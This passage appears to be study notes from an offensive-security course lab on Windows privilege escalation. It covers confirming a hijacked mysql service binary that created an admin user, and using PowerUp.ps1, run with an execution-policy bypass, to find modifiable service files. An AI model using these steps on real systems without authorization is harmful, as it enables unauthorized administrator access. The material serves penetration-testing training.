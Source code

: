 
Once the reboot is complete, we connect again as _dave_ via RDP and open a PowerShell window
+ Because of the issued reboot and the Startup type _auto_, the service should have executed the executable file we placed to replace the original mysql service binary
+ To confirm that our attack worked, let's list the members of the local _Administrators_ group with **Get-LocalGroupMember** to check if _dave2_ was created and added to it:
```
PS C:\Users\dave> Get-LocalGroupMember administrators

ObjectClass Name                      PrincipalSource
----------- ----                      ---------------
User        CLIENTWK220\Administrator Local
User        CLIENTWK220\BackupAdmin   Local
User        CLIENTWK220\dave2         Local
User        CLIENTWK220\daveadmin     Local
User        CLIENTWK220\offsec        Local
```
+ Above shows that _dave2_ was created and added to the local _Administrators_ group

As in the previous sections, we can use _RunAs_ to obtain an interactive shell, and can open powershell as administrator with dave2 credentials (to get admin access)
+ In addition, we could also use _msfvenom_ to create an executable file, starting a reverse shell
+ To restore the original state of the service, we have to delete our binary **mysqld.exe**, restore the backed up original binary, and restart the system

#### PowerUp
Before we conclude this section, let's review an automated tool named _PowerUp.ps1_ and check if it detects this privilege escalation vector
+ To do so, we copy the script to _kali_'s home directory and start a Python3 web server to serve it
```
kali@kali:~$ cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .

kali@kali:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ..
```

On the target machine, we download it as _dave_ with **iwr** in PowerShell and start **powershell** with the **ExecutionPolicy** **Bypass**
+ Otherwise, it won't be possible to run scripts as they are blocked

After we import **PowerUp.ps1**, we can use **Get-ModifiableServiceFile**
+ This function displays services the current user can modify, such as the service binary or configuration files

Import PowerUp:
```
powershell -ep bypass
. .\PowerUp.ps1
```

**Get-ModifiableServiceFile** usage and output:
```
PS C:\Users\dave> Get-ModifiableServiceFile

...

ServiceName                     : mysql
Path                            : C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
ModifiableFile                  : C:\xampp\mysql\bin\mysqld.exe
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : BUILTIN\Users
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'mysql'
CanRestart                      : False
```
